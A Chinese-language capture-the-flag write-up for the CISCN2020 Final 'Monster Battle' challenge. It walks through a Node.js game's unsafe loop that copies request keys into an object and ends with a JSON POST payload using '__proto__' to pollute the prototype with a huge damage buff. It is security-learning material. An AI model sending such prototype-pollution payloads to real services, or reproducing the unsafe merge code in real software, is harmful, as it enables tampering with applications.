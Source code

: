 # CISCN2020 Final  Monster Battle
这是源码, 先`npm install`安装依赖, 再`node app.js`运行环境即可
题目给了源码, 打斗的逻辑并不复杂, 关键部分其实主要就下面这些
```js

let tempPlayer = req.body

        for ( let i in tempPlayer )
        {
            if (player[i]) {
                if ( (i == 'career' && !careers.includes(tempPlayer[i])) || (i == 'item' && !items.includes(tempPlayer[i])) || (i == 'round_to_use' && !checkRound(tempPlayer[i])) || tempPlayer[i] === '') {
                    continue
                }
                player[i] = tempPlayer[i] //存在可控键名, 即key、value均可控
            }
        }
        player.num = 1; //player剩余可`使用物品`的次数
        player.HP = 100; //HP为血量
        player.aggressivity = getPlayerAggressivity()

        initMonster()
        res.redirect("/battle")
    } else {
        res.redirect("/")
    }
})
```
那么只需污染没有初始化的参数即可，要么【让我们变强】，要么【让怪兽变弱】，显然前者更为容易，因为有一个特殊的机——buff。
在源码中， buff的作用是在计算纯粹伤害的时候体现，因此，只要我们将buff的值设置为很大，即可达到瞬秒怪兽的效果。
```js
function  getPlayerDamageValue() //计算纯粹伤害
{
    if (player.buff) {
        return keepTwoDecimal(player.aggressivity+player.buff)
    } else return player.aggressivity
}
```
当然，此题还有一点需注意，要想保持高buff, 对人物角色和技能都有一定限制
```js
function triggerPassiveSkill() //触发被动技能
{
    switch (player.career) {
        case "warrior":
            player.buff = 5
            return 1
        case "high_priest" :
            player.HP += 10
            player.HP = keepTwoDecimal(player.HP)
            return 2
        case 'shooter' :
            player.buff = 7
            return 3
        default:
            return 0
    }
}
```
上面这点, 决定了我们的身份只能是`high_priest`, 因为当流程进入其它两个分支时, 都会将buff变为正常值.
而下面的代码, 则决定了我们的技能最好不要是`BYZF`, 因为当进入这个分支时, buff值也会变为正常值(可以设定为第二、三回合再使用技能, 但不够暴力没内味儿)
```js
function playerUseItem(round)
{
    //ZLYG：治疗药膏，使用后回复10点生命值
    //BYZF：白银之锋，使用后的一次攻击将触发暴击并造成130%的伤害
    //XELD：邪恶镰刀，使用后将对方的一次攻击的攻击力变为80%
    if (round == player.round_to_use && player.num == 1)
    {
        player.num = 0;
        switch (player.item) {
            case "ZLYG":
                player.HP += 10;
                return  1;
            case "BYZF":
                player.buff = player.aggressivity * 0.3;
                player.buff = keepTwoDecimal(player.buff)
                return 2;
            case "XELD":
                monster.buff = monster.aggressivity * (1 - 0.8) * (-1);
                monster.buff = keepTwoDecimal(monster.buff)
                return 3;
        }
    } else return 0
}
```
最终payload, 同样：请注意请求头`Content-Type: application/json`
```http
POST /start HTTP/1.1
Content-Type: application/json

{"name":1, "round_to_use":2, "career":"high_priest", "item":"BYZF","__proto__":{"buff":10000}}
```
